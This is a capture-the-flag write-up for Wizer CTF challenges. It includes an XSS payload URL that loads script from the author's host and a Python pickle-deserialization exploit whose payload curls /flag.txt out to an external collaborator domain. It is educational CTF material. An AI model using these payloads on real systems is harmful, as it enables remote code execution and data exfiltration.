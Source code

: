 upload this file publicaly on internet: [https://aftab700.pythonanywhere.com/api/xss](https://aftab700.pythonanywhere.com/api/xss)

Payload:
```shell
https://events.wizer-ctf.com/?mode=sw&color=\\aftab700.pythonanywhere.com/api/xss
```

![image](https://github.com/Aftab700/Writeups/assets/79740895/69c5ccec-add7-4347-9f4e-3537df332f21)

<br>

## Profile Page
> Get the flag and submit it here (https://dsw3qg.wizer-ctf.com/submit_flag/<flag>) to win the challenge! (profile page: https://dsw3qg.wizer-ctf.com/profile)

<br>

<details><summary markdown="span">Click to see source code :diamond_shape_with_a_dot_inside: </summary></details>

![image](https://github.com/Aftab700/Writeups/assets/79740895/e1a9a542-c019-45ff-8f29-1901a0346a4c)


Here if GET parameter `load_object` is present it will pass it to `pickle.loads(base64.b64decode(load_object))`. 

`pickle.loads()` is used to unpickle (deserialize) the data and takes a variable containing byte stream as a valid argument.

It is vulnerable to pickle insecure deserialization.

To exploit this vulnerability, we will use `__reduce__` method. \
`__reduce__` allows you to define a custom way to reconstruct the object during deserialization. It can be used for execution of arbitrary 
code during deserialization

I wasted so much time on payload making because i was using `os.system` but it didn't work at last `subprocess.Popen` worked

python exploit code:

```python
import pickle
import base64
import os
import requests


class RCE:
    def __reduce__(self):
        import os
        import subprocess
        return (subprocess.Popen, (('curl','bwb2r04nf32cz2y75mho7eus4jaay8mx.oastify.com', '-d', '@/flag.txt'),0))

pickled = pickle.dumps(RCE())
x2 = base64.b64encode(pickled).decode()

r = requests.get(f"https://dsw3qg.wizer-ctf.com/profile?load_object={x2}",proxies={'http':'http://127.0.0.1:8080'})
print(r.text)
```
